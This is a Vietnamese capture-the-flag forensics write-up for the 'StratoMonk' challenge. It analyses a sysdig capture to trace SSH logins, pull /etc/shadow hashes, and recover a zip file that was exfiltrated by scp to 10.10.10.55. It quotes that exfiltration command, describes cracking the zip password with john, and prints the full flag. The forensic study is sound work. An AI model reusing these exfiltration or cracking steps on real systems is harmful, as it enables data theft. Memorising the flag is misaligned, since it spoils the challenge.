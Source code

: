 # StratoMonk 

![Screenshot 2025-04-06 093843](https://github.com/user-attachments/assets/733449c1-b6e1-498e-a4e2-683150acf895)

> Tệp scap này được sysdig ghi lại các sự kiện hệ thống, cho nên có thể phân tích hoạt động của hệ thống.

## User

Dùng strings phát hiện ra các lần đăng nhập từ xa thông qua sshd của user: dark_monkey

![Screenshot 2025-04-06 170804](https://github.com/user-attachments/assets/c6534e91-acef-46ab-99f8-f958af6717ec)

## Password

Vì là bản ghi lại hệ thống nên ta có thể xem được các lần đăng nhập hay mật khẩu được lưu tại file __/etc/shadow/__. Thực hiện grep theo user vừa tìm được

![Screenshot 2025-04-06 171419](https://github.com/user-attachments/assets/d5b184d3-2175-435a-930f-35b1e2ab244f)

Ở trên có cả 2 thông tin của file /etc/passwd và /etc/shadow, cần mật khẩu nên ta chỉ cần lưu thông tin của /etc/shadow

![Screenshot 2025-04-06 171615](https://github.com/user-attachments/assets/b28e3b83-0300-45f8-9570-8c492e7fd5a3)

## Sensitive Data

Vì tìm dữ liệu bị đánh cắp nên ta sẽ tìm theo SCP

> scp là viết tắt của Secure Copy Protocol, là một lệnh dùng để sao chép file giữa máy local và máy remote (hoặc giữa hai máy remote) qua giao thức SSH

![Screenshot 2025-04-06 171859](https://github.com/user-attachments/assets/acea1156-606b-419a-b62e-0c9f98ee0468)

`scp /etc/backup.zip SpecialAgent@10.10.10.55:/tmp/backup.zip
`
Lệnh trên thực hiện gửi file /backup.zip đến địa chỉ 10.10.10.55 từ xa. Đây có thể là dấu hiệu của việc đánh cắp dữ liệu

Mình sử dụng công cụ mạnh hơn để phân tích sự kiện hệ thống là sysdig

``
sysdig -r stratomonk2.scap "evt.type == read and fd.name contains '/etc/backup.zip'"
``

- Giải thích:

| **Phần** | **Ý nghĩa** |
|----------|-------------|
| `sysdig` | Gọi công cụ sysdig để phân tích sự kiện hệ thống |
| `-r stratomonk2.scap` | Đọc file `stratomonk2.scap` (file chứa các sự kiện hệ thống đã được ghi lại trước đó) |
| `"evt.type == read and fd.name contains '/etc/backup.zip'"` | Lọc các sự kiện có kiểu là `read` (tức là process đang đọc dữ liệu từ đâu đó) và tên file được đọc có chứa chuỗi `/etc/backup.zip` |

![Screenshot 2025-04-06 173451](https://github.com/user-attachments/assets/2e99590d-07d0-48c2-8c49-9b55f956764f)

Có thể thấy một process scp có một yêu cầu read để đọc file backup.zip nhưng chỉ được trả về 256 byte, giờ muốn lấy được file zip hoàn chỉnh thì phải lọc theo lệnh read rồi ghép các phần data đó lại.

Sau một hồi thì mình cũng đã có được file  .zip

![Screenshot 2025-04-06 173827](https://github.com/user-attachments/assets/8355a9d1-49fe-4a51-8a33-bbf2a1e868bd)

Dùng john để crack 

![Screenshot 2025-04-06 173913](https://github.com/user-attachments/assets/0aac80cf-24fc-4df3-bbe1-ac0391340291)

Dùng pass đó giải nén ta được phần 3 của flag

![Screenshot 2025-04-06 174039](https://github.com/user-attachments/assets/011f4035-cca7-4a5a-b0c0-067b8ac56cce)

```
Flag: ZiTF{dark_monkey:m0NK3y!_s3CR3t_N0t3s:=)}
```
 
### Tham khảo
https://0sx86.re/2025/04/05/StratoMonk/
